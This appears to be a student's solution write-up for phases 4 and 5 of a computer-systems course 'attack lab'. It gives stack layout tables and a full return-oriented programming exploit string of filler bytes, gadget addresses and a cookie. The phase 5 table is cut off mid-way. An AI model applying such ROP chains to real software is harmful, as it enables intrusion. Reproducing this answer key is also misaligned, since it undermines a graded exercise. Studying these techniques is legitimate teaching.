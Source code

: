 ```asm
  c3              ret
```

# Phase 4 Solution

## Stack State

| Name        | offset | content     | value[hex string]       | comment |
| ----------- | ------ | ----------- | ----------------------- | ------- |
| caller_16   | 16     | touch2_addr | ec 17 40 00 00 00 00 00 |         |
| caller_8    | 8      | gadget_2    | c5 19 40 00 00 00 00 00 |         |
| caller_0    | 0      | cookie      | fa 97 b9 59 00 00 00 00 | rsp     |
| return_addr | -8     | gadget_1    | cc 19 40 00 00 00 00 00 | rip     |
| rbuff_end   | -16    | filler      | ff ff ff ff ff ff ff ff |         |
| rbuff_24    | -24    | filler      | ff ff ff ff ff ff ff ff |         |
| rbuff_16    | -32    | filler      | ff ff ff ff ff ff ff ff |         |
| rbuff_8     | -40    | filler      | ff ff ff ff ff ff ff ff |         |
| rbuff_start | -48    | filler      | ff ff ff ff ff ff ff ff |         |

## The Exploit String

```asm
ff ff ff ff ff ff ff ff   /* rbuff_start: filler */
ff ff ff ff ff ff ff ff   /* rbuff_8:     filler */
ff ff ff ff ff ff ff ff   /* rbuff_16:    filler */
ff ff ff ff ff ff ff ff   /* rbuff_24:    filler */
ff ff ff ff ff ff ff ff   /* rbuff_end:   filler */
cc 19 40 00 00 00 00 00   /* return_addr: gadget_1 */
fa 97 b9 59 00 00 00 00   /* caller_0:    cookie */
c5 19 40 00 00 00 00 00   /* caller_8:    gadget_2 */
ec 17 40 00 00 00 00 00   /* caller_16:   touch2_addr */
```

# Phase 5 Solution

## Stack State

| Name        | offset | content     | value[hex string]       | comment    |
| ----------- | ------ | ----------- | ----------------------- | ---------- |
| caller_80   | 80     | empty       | 00 00 00 00 00 00 00 00 |            |
| caller_72   | 72     | cookie_str  | 35 39 62 39 39 37 66 61 | cookie_ptr |
| caller_64   | 64     | touch3_addr | fa 18 40 00 00 00 00 00 |            |
| caller_56   | 56     | gadget_2    | c5 19 40 00 00 00 00 00 |            |
| caller_48   | 48     | gadget_7    | d6 19 40 00 00 00 00 00 |            |
| caller_40   | 40     | gadget_2    | c5 19 40 00 00 00 00 00 | stack_ptr  |
| caller_32   | 32     | gadget_3    | 06 1a 40 00 00 00 00 00 |            |
| caller_24   | 24     | gadget_6    | 13 1a 40 00 00 00 00 00 |            |
| caller_16   | 16     | gadget_5    | 34 1a 40 00 00 00 00 00 |            |